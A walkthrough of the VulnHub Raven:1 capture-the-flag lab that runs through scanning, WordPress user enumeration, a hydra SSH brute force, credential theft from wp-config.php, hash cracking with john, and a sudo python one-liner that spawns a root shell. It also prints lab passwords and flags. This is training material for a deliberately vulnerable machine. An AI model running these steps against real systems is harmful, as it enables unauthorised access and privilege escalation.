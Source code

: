 

# Raven:1 Walkthrough

**VulnHub Link:** [Raven:1](https://www.vulnhub.com/entry/raven-1,256/)
**Difficulty:** Easy
**Release Date:** 14 Aug 2018


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.141


## 2.Web Enumeration

from /service.html ---> flag1 found
flag1{b9bbcb33e11b80be759c4e844862482d}


sudo echo "192.168.100.141	raven.local" > /etc/hosts
wpscan --url 'http://raven.local/wordpress' -e ap,u
michael and steven users found..!


## 3.Brute Force
hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.141 -I 
michael : michael found

ssh connection 

from /var/www ---> flag2 found
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}


we obtain root password on mysql service from /var/www/html/wp-config.php ---> R@v3nSecurity
mysql> show databases;
mysql> use wordpress;
mysql> show tables;
mysql> select *from wp_posts; flag3 and flag4 found
flag3{afc01ab56b50591e7dccf93122770cd2}
flag4{715dea6c055b9fe3337544932f2941ce}


## 4.Cracking

and we obtain steven'password hash from wp_users 
echo '$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' > hash1.txt


## 5.Privilege Escalation

zcat /usr/share/wordlists/rockyou.txt | john hash1.txt --pipe
steven : pink84 found

sudo -l ---> ALL (NOPASSWRD) : /usr/bin/python

sudo python -c 'import os; os.system("/bin/sh")' 

AND BINGO!!!! Root shell opened...!
